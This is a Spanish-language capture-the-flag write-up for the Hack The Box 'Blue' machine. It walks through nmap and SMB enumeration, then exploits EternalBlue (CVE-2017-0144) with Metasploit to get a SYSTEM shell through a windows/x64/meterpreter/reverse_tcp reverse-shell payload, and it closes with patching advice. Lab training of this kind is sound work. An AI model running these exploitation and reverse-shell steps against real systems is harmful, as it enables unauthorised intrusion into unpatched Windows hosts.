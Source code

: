 ```yaml
---
{"-publish":true,"permalink":"/src/site/notes/hack-the-box/machines/easy/blue/","PassFrontmatter":true,"PassFrontmatter":true}
---
```



Empezamos realizando un escaneo de nmap

```
nmap -sCV 10.10.10.40 -T5 -oN blue_machine -v
```

![Pasted image 20250522000912.png](/img/user/imgs/Pasted%20image%2020250522000912.png)
Observamos que tenemos algunos puertos importantes como el 139 o 445.

Procederemos a hacer una enumeracion basica de smb con el objetivo de detectar el sistema operativo, nombre de host y dominio del equipo remoto.

```
nmap -p 139,445 --script=smb-os-discovery 10.10.10.40
```

![Pasted image 20250522001503.png](/img/user/imgs/Pasted%20image%2020250522001503.png)

Descubrimos que el hostname de Blue vienea ser 'haris-PC', tambien descubrimos que el sistema operativo corriendo en la maquina objetivo es **windows 7**.

Vamos a descubrir cuantos recursos compartidos hay en Blue.

```
nmap -p 445 --script=smb-enum-shares 10.10.10.40
```

Nos retorna lo siguiente, quiere decir que el puerto esta siendo filtrado por un firewall. Es decir, el paquete fue enviado, pero no recibio ninguna respuesta
![Pasted image 20250522002159.png](/img/user/imgs/Pasted%20image%2020250522002159.png)

Al igual con el puerto 139:

![Pasted image 20250522002327.png](/img/user/imgs/Pasted%20image%2020250522002327.png)

Si listamos con smbclient nos sale lo siguiente:
```
smbclient -L //10.10.10.40 -N
```

![Pasted image 20250522002414.png](/img/user/imgs/Pasted%20image%2020250522002414.png)

Pero por practica vamos a usar msfconsole:

- Empezaremos buscando modulos smb utiles:
```
	- search type:auxiliary smb
```

Veremos varios resultados, pero los mas utiles para enumeracion son:

- **auxiliary/scanner/smb/smb_enumshares**
- **auxiliary/scanner/smb/smb_enumusers**
- **auxiliary/scanner/smb/smb_version**
- **auxiliary/scanner/smb/smb_login** (si tienes credenciales)

## Enumerar recursos compatidos smb (shares)
Usaremos credenciales por defecto como por ejemplo: guest

- set RHOSTS 10.10.10.40
- set THREADS 5
- set SMBUser guest
- set SMBPass ""
- run

![[Pasted image 20250522003301.png\|Pasted image 20250522003301.png]]

## Enumerar usuarios smb (users)

![[Pasted image 20250522003642.png\|Pasted image 20250522003642.png]]

Aqui podemos ver que el usuario guest, no tiene permisos suficientes para poder enumerar usuarios, intentaremos con los usuarios.

## Como hemos encontrado recursos compartidos procederemos a ingresar

Para interactuar con los recursos compartidos usaremos smbclient:

```
smbclient //10.10.10.40/shares -N
```

Los unico recursos compartidos con los cuales podemos interactuar son dos: **Share** y **Users**

Intentamos con **Share**:

![Pasted image 20250522160800.png](/img/user/imgs/Pasted%20image%2020250522160800.png)

Intentamos con "Users"

![Pasted image 20250522004743.png](/img/user/imgs/Pasted%20image%2020250522004743.png)

Nada interesante el los recursos compartidos.

Investigando un poco, vemos que existe una vulnerabilidad llamada EternalBlue la cual afecta principalmente a versiones de Windows que tienen el servicio SMBv1 habilitado y sin parches. Fue explotada por el exploit EternalBlue, filtrado por el grupo Shadow Brokers en 2017, y se identifica como:

CVE-2017-0144

Los sisemas que son vulnerables a EternalBlue (si no tienen el parche):

- Windows XP
- Windows Vista
- Windows 7
- Windows 8 (menos comun, pero puede verse afectado)
- Windows Server 2003
- Windows Server 2008
- Windows Server 2012 (en cietas configuraciones con SMBv1)
- Windows 10 (anteriores a marzo de 2017, sin parche)

Que permite hacer EternalBlue?:
- Ejecucion remota de codigo (RCE) a traves del puerto 445/TCP (SMB).
- Se usa para obtener shells remotas sin autenticacion.
- Se popularizo en malware como WannaCry y NotPetya.

Recomendaciones para prevenir:
1. Deshabilitar SMBv1 si no es necesario.
2. Aplicar todos los parches de seguridad de Windows.
3. Bloquear el puerto 445/TCP en firewalls cuando sea posible.

Procedere a probar con un payload de nmap para verificar si esta maquina Windows 7 es vulnerable a EternalBlue.

```
nmap -p 445 --script smb-vuln-ms17-010 10.10.10.40
```

![Pasted image 20250522163445.png](/img/user/imgs/Pasted%20image%2020250522163445.png)

O tambien podemos usar el siguiente payload para enumerar vulnerabiliades conocidas en el SMB:

```
nmap -p 445 --script smb-vuln* 10.10.10.40
```

![Pasted image 20250522163652.png](/img/user/imgs/Pasted%20image%2020250522163652.png)

Algunos payloads extras:
- nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-vuln* ip (escaneo combinado completo de SMB)
- nmap -p 445 --script smb-os-discovery,smb-protocols ip (verificar version de SMB y detalles del servidor)
- sudo nmap --script-updatedb (asegurarnos de que nmap tenga los scripts habilitados)

Una vez que hemos identificado la vulnerabilidad, usaremos msfconsole para explotarla.

Iniciamos el msfconsole:

- msfconsole

Cargamos el exploit:

- use exploit/windows/smb/ms17_010_eternalblue

Verificamos las opciones:

- show options

Establecemos la IP del objetivo:

- set RHOSTS 10.10.10.40

Seleccionamos el payload (por ejemplo, Meterpreter):

- set PAYLOAD windows/x64/meterpreter/reverse_tcp
Si el sismte es de 32 bits, usa: windows/meterpreter/reverse_tcp

En este casoo el payload que sirve es el de **x64**

![Pasted image 20250522164803.png](/img/user/imgs/Pasted%20image%2020250522164803.png)

Damos un **shell** en el meterpreter y tenemos nuestra consola de windows interactiva:

![Pasted image 20250522165214.png](/img/user/imgs/Pasted%20image%2020250522165214.png)


Para ver el usuario con el que se ejecuta el exploit usamos **whoami**: 

- nt authority\system

Para encontrar el user.txt nos vamos al usuario **haris**:

- type user.txt

![[Pasted image 20250522165350.png\|Pasted image 20250522165350.png]]

Al igual para el root nos vamos a **Administrator**:

![[Pasted image 20250522165441.png\|Pasted image 20250522165441.png]]

thansk.